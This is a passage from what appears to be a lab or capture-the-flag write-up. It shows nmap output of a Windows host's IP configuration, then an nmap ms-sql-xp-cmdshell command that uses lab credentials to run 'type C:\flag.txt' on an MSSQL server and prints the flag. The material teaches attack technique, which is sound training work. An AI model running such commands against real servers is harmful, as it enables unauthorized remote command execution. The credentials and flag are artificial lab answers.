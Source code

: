 ```bash
|       Null
|       Windows IP Configuration
|       Null
|       Null
|       Ethernet adapter Ethernet 3:
|       Null
|          Connection-specific DNS Suffix  . : ap-southeast-1.compute.internal
|          Link-local IPv6 Address . . . . . : fe80::8992:108:e511:1767%8
|          IPv4 Address. . . . . . . . . . . : 10.0.28.28
|          Subnet Mask . . . . . . . . . . . : 255.255.240.0
|          Default Gateway . . . . . . . . . : 10.0.16.1
|       Null
|       Tunnel adapter Local Area Connection* 3:
|       Null
|          Media State . . . . . . . . . . . : Media disconnected
|          Connection-specific DNS Suffix  . : 
|       Null
|       Tunnel adapter isatap.ap-southeast-1.compute.internal:
|       Null
|          Media State . . . . . . . . . . . : Media disconnected
|          Connection-specific DNS Suffix  . : ap-southeast-1.compute.internal
|_      Null

Nmap done: 1 IP address (1 host up) scanned in 0.42 seconds
```

```bash
root@attackdefense:~# nmap --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="type C:\flag.txt" -p1433 10.0.28.28
Starting Nmap 7.91 ( https://nmap.org ) at 2024-06-28 09:11 IST
Nmap scan report for 10.0.28.28
Host is up (0.0024s latency).

PORT     STATE SERVICE
1433/tcp open  ms-sql-s
| ms-sql-xp-cmdshell: 
|   [10.0.28.28:1433]
|     Command: type C:\flag.txt
|       output
|       ======
|_      1d1803570245aa620446518b2154f324

Nmap done: 1 IP address (1 host up) scanned in 0.42 seconds
```

<details><summary>Flag</summary></details>









